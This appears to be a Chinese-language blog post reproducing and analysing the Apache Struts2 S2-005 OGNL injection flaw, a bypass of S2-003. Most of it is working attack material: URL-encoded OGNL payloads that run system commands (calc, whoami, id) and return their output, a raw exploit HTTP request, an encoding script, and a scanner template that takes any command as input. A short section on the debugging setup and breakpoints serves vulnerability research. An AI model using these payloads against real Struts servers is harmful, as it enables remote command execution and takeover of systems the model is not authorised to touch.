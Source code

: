 ```yaml
---
title: s2-005复现分析
date: 2021-08-10 21:05:49
categories:
- 代码审计
tags:
- struts2
- s2-005
# description: 描述
# comments: 是否可以评论（默认true：可评论）
cover: index.jpg
---
```


## 1.漏洞简介
官方描述：
https://cwiki.apache.org/confluence/display/WW/S2-005

s2-005是对s2-003的绕过，s2-003通过将#字符加入了黑名单来限制简单对象的执行，但是#字符可通过编码来绕过，比如：unicode编码（\u0023)或者8进制（\43）。
```java
('\u0023' + 'session\'user\'')(unused)=0wn3d

which will look as follows once URL encoded:

('\u0023'%20%2b%20'session\'user\'')(unused)=0wn3d
```


而后为了修复，官方增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等来修补。但是并没有完全解决该漏洞，ognl表达式依旧可以执行，通过ognl表达式将安全配置修改即可绕过再次导致了该漏洞。

### 影响范围：
Struts 2.0.0 - Struts 2.1.8.1

## 2.poc测试

网上复现大多推荐采用tomcat6，因为在高版本的tomcat中#.[]()等字符出现在高版本中可能会引发404错误。

这个可以通过编码来解决，不一定需要低版本tomct。

```shell
result=r"(#context[%22xwork.MethodAccessor.denyMethodExecution%22]=new java.lang.Boolean(false),#_memberAccess[%22allowStaticMethodAccess%22]= new java.lang.Boolean(true),@java.lang.Runtime@getRuntime().exec('open -a Calculator'))(meh)&z[(name)('meh')]=true"

# result=poc.replace('u0023','#')
# result=result.replace('u003d','=')
# result=result.replace('u005c','\\')
#
result = result.replace('#', '%23')
# result = result.replace('=', '\\75')
result = result.replace(' ', '%20')
result = result.replace('(', '%28')
result = result.replace('\'', '%27')
result = result.replace('"', '%22')
result = result.replace('\\', '%5C')
result = result.replace(')', '%29')
result = result.replace('[', '%5b')
result = result.replace(']', '%5d')

print(result)
```

以下是本人测试通过的poc。

vulhub环境：
tomcat版本： Apache Tomcat/8.5.14
jdk版本：1.8.0_121

无回显的命令执行：
```java
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22calc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

有回显得poc探测：
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

有回显的命令执行：
```java
(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27whoami%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
```


```java
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: IP:8080
Content-Length: 623

redirect:${`%`23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27id%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```


s2-003。
https://github.com/0linlin0/Struts2_Vul_Debug

tomcat版本： Tomcat 7.0.109
jdk版本：1.7


有回显的paylaod:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29%5C75true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43mycmd%5C75%5C%27whoami%5C%27%27%29%28d%29%29&%28h%29%28%28%27%5C43myret%5C75@java.lang.Runtime@getRuntime%28%29.exec%28%5C43mycmd%29%27%29%28d%29%29&%28i%29%28%28%27%5C43mydat%5C75new%5C40java.io.DataInputStream%28%5C43myret.getInputStream%28%29%29%27%29%28d%29%29&%28j%29%28%28%27%5C43myres%5C75new%5C40byte%5b51020%5d%27%29%28d%29%29&%28k%29%28%28%27%5C43mydat.readFully%28%5C43myres%29%27%29%28d%29%29&%28l%29%28%28%27%5C43mystr%5C75new%5C40java.lang.String%28%5C43myres%29%27%29%28d%29%29&%28m%29%28%28%27%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28n%29%28%28%27%5C43myout.getWriter%28%29.println%28%5C43mystr%29%27%29%28d%29%29
```

有回显的poc:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

## 3.漏洞分析跟踪

`docker-compose up -d`运行镜像会将docker里的war包拷贝到本地。

运行调试只需要将war包拷贝到tomcat的webapps，解压使用idea打开配置tomcat进行调试即可。
![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-005复现分析/1.png)

导入Libraries
![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-005复现分析/2.png)

### 断点位置

S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\DefaultActionInvocation.class#invoke()194行
![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-005复现分析/3.png)

`this.resultCode = interceptor.getInterceptor().intercept(this);`这段代码就是去执行拦截器.




S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\ognl\OgnlValueStack.class#setValue()128行

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-005复现分析/4.png)

This.ognlUtil.setValue执行表达式。

## 4.psf exp编写

```java
name: poc-yaml-struts2-003-005-rce-attack
options:
  command: require
set:
  command1: urlencode(command)
rules:
  - method: GET
    path: ?(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27{{command1}}%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
    search: |
      (?ms)\r\n\r\n(?P<content>.*?)\n\0
    expression:
      response.status ==200
detail:
  author: h11ba1
  category: code-exec
  gevid:
  extend: "{{content}}"
  level: 4
  suffix: .action|.do|.jsp|.page|null|!.php
  type: postcrawl
```

运行效果如下：
![4.1](4.1.jpg)





